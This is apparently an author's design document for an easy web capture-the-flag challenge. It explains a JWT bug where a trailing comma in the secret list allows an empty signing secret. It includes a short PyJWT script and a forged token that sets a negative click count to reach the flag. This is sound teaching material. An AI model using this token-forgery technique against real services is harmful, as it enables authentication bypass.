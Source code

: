 # Challenge Document


### Version: `0.1.a`
### Long Title: Counted
### Short Title: WEB??
### Author: Isaac (456dev)
### Date: 10/03/2025
### Difficulty: Easy
### Learning objective: Insecure deployment / jwt verification bug


## Challenge Brief (as its to be written in RIO):

Everyone knows that lower numbers are cooler.

Get the flag from the webapp, the Applications source is below


## Solve:

### Automatic:

test script to run against the live service: this makes sure the flag is reachable via the intended solution, automatically

```
flag=example{flag} target=http://localhost:8000 uv run -s test-solve.py
```

Manual / Intended method:

The user must access the /flag endpoint with < 0 "clicks" adding to the counter, which isnt possible in the web app itself
the number of clicks is stored in a signed jwt, following the pattern where multiple jwt secrets can be in use at any 1 time
the application has a bug, where if the python app is passed a jwt secret string including a trailing comma ","
(which this deployment does), then the list of jwts includes an empty string in the last position.
`pyjwt` accepts this both for encoding + decoding, although other libraries may not

to solve:
load the page to get the initial signed jwt cookie
extract the unsigned payload
```json
{
    "count": 0
}
```
(or however may times you clicked first)

modify this payload so that count < 0, and the flag check would pass

```json
{
    "count": -1
}
```

sign this payload with the secret "" (the empty string)

```python
# /// script
# requires-python = ">=3.12"
# dependencies = [
#     "pyjwt",
# ]
# ///
import jwt

payload = {"count": -1}

print(jwt.encode(payload, ""))
```

```bash
$ uv run -s get-jwt.py 
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb3VudCI6LTF9.9VBxY0JLEIjg0ihGZ0ZxRIoXT74pCQS7YZbFZsfpRk8
```



## Author Notes: 

since the token doesn't contain a timestamp, generated tokens will not expire

this is a source-available challenge, where you need to find the bug in the input happening.
there is no direct hint that the deployment config contains a trailing "," triggering it, 
but as multiple jwt secrets isnt too common in ctf challenges, it should still point to the right area,
esp with combined by the fact that passing `count < 0` is trivially impossible within the application, where it is either set to 0, or 1 is added,
hinting to the need to modify the cookie.

## Debrief: 



## Hints: 


